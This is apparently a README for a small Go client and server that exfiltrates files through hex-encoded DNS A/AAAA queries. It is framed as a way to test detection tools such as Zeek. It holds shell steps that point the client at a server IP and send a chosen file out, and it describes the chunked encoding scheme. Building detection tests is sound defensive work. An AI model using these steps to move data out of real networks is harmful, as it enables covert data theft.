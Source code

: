 # DNS Exfil Test Tool

This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

----------------------

To Use: **Server Side**
1. > cd dns-exfil-test/server 
2. > sed -i -e 's|10.10.10.10|[YOUR_IP]|g' go-dnsserver.go
3. > go mod init dns-exfil-text/server
4. > go get github.com/miekg/dns
5. > go build
6. > ./server

To Use: **Client Side**
1. > cd dns-exfil-test/client 
2. > sed -i -e 's|127.0.0.1|[SERVER_IP]|g' go-dnsclient.go
3. > go mod init dns-exfil-text/client
4. > go build
5. > ./client [file_to_send]


- the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com

- Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.

- The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.

- You will need to rename the outfile if you want to send multiple files.

----------------------

***Example Execution:***

**Client**

![Image](client.png)

**Server**

![Image](server.png)


